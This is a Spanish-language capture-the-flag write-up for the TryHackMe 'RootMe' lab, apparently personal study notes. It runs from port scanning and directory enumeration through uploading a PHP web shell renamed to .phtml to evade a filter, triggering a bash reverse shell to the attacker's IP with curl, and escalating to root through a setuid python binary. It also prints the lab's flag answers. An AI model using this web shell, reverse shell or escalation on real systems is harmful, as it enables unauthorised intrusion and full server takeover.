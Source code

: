 ```yaml
---
title: THM - RootMe
chapter: 3
tags: [tryhackme, web, linux, revese-shell, privilege-escalation]
---
```


# THM - RootMe

~~~shell 
$ sudo nmap -sC -sV --min-rate 4000 --open $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-10 20:27 -05
Nmap scan report for 10.10.94.0 (10.10.94.0)
Host is up (0.19s latency).
Not shown: 997 closed ports, 1 filtered port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
~~~

**Flag \#1:** *Scan the machine, how many ports are open?* `3`

**Flag \#2:** *What version of Apache is running?* `2.4.29`

**Flag \#3:** *What service is running on port 22?* `ssh`

## Enumeración de rutas

<https://github.com/v0re/dirb/blob/master/wordlists/common.txt>

~~~shell
wget https://raw.githubusercontent.com/v0re/dirb/master/wordlists/common.txt -o /usr/share/wordlists/common.txt
~~~

~~~shell
gobuster dir -u http://$IP -w /usr/share/wordlists/common.txt
~~~


Encontrarmos un ruta

## Ejecución

Crear un archivo llamado `shell.php`para subirlo en `/panel`

~~~shell
<?php
$cmd = $_GET['cmd'];
system($cmd);
?>
~~~

![](https://hackmd.io/_uploads/rkshxHqtn.png)

Como no deja subir archivos `.php` vamos a utilizar otra extensión que apache también podría interpretar para php

<https://book.hacktricks.xyz/pentesting-web/file-upload>

Podemos tambien utilizar los payloads del *intruder* de Burp para probar todas las extensiones posibles. 

En esta caso vamos a probrar con la extensión `.phtml`
![](https://hackmd.io/_uploads/ByMX7rqY3.png)

![](https://hackmd.io/_uploads/B1WI7B5t3.png)


## Ejecución remota

![](https://hackmd.io/_uploads/rJUumr5Y2.png)

Ponemos en escucha netcat
~~~shell
sudo nc -nlvp 5000
~~~

~~~shell
curl 'http://10.10.94.0/uploads/shell.phtml?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.18.41.138/5000%200%3E%261%27'
~~~

![](https://hackmd.io/_uploads/HyBLLB9Y2.png)

~~~shell
www-data@ip-10-10-84-97:/var/www/html$ tty
tty
not a tty
~~~

~~~shell
www-data@ip-10-10-84-97:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ip-10-10-84-97:/var/www/html$ tty
tty
/dev/pts/0
www-data@ip-10-10-84-97:/var/www/html$ stty raw -echo;
~~~

## Archivo user.txt
~~~shell
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
~~~

~~~shell
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~



## Escalación de privilegios


~~~shell
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount

~~~

En particular, `-perm -4000` busca archivos que tienen el bit setuid activado. El bit setuid permite que un archivo se ejecute con los permisos del propietario del archivo en lugar de los permisos del usuario que lo ejecuta. Los archivos con el bit setuid suelen ser ejecutables con privilegios especiales.

<https://gtfobins.github.io/gtfobins/python/#suid>

~~~shell
$ which python
/usr/bin/python
~~~

~~~shell
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
~~~

~~~shell
# ls /root
root.txt
# cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

![](https://hackmd.io/_uploads/Hy0CYBqth.png)

